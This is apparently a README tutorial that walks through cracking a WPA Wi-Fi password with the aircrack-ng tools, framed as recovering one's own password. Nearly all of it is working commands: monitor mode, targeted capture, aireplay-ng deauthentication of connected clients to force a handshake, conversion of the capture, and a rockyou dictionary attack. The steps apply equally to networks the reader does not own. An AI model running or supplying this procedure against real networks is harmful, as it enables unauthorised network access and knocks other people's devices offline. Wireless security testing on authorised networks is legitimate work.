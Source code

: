 1) Enable listening via the network adapter

``` airmon-ng start wlan0 ```

1) We now have a new card name:

``` wlan0mon ```

2) Listen to networks nearby and find yours:

``` airodump-ng wlan0mon ```

3) When you see your network stop listening and copy the bssid, and
channel:

``` airodump-ng wlan0mon --bssid MAC -c CHANNEL [e.g. 6] ```

4) When you see that it is only listening to this network and everything works
we can take action.

Stop and add to the command:

``` -w NAME ```

This will print everything that happens during the file with the given name
listening. We'll need this to take over the .cap file

5) We are looking for MACs of currently connected devices to the router. We copy it and bssid to
the next command.

6) With listening enabled, we perform:

```
 aireplay-ng -a BSSID_MAC -c CLIENT_MAC --deauth 40 wlan0mon
```

Packets will be sent to the client that disconnect him for a moment from the network,
so that he would have to connect to it again automatically.

7) After a while, we stop the attack and look if in the previous console where
we were listening, the following message appeared:

``` WPA handshake ```

If so, we turn off listening. If we don't repeat.

8) The card in the listening mode will no longer be useful to us, so we can turn it off and
go back to the previous version:

``` airmon-ng stop wlan0mon ```

Now you can use the Internet on your computer again;)

9) We proceed to change the .cap file to -> .hccapx

We will use the aircrack tool for this. You can break it with others that may
such options, e.g. hashcat.

Option:

``` -j ```

He will help us in exchange.

10) Enter:

``` aircrack-ng -j OUTPUT_NAME NAME.cap ```

After a while, you should see the file named after the parameter
-j.

11) We approach password recovery. For this we will need some
dictionary we can use some of the e.g. kali system.

``` aircrack-ng NAME.hccapx -w /usr/share/wordlists/rockyou.txt [dictionary] ```

If he finds our password in the dictionary, I will show it to us.

12) Good luck with your recovery!